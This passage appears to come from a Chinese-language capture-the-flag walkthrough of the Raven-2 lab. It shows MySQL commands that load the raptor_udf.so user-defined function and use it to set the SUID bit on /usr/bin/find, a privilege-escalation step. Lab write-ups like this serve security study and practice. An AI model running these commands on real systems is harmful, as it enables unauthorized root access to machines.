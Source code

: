 ![执行SQL语句](./Raven-2/执行SQL语句.png)

创建`do_system`函数调用`/usr`路径下的`raptor_udf.so`。

```mysql
create function do_system returns integer soname 'raptor_udf.so';
select do_system('chmod u+s /usr/bin/find'); # 为当前用户赋予find文件的suid权限
# 只有mysql的root才能够赋予用户suid权限
```
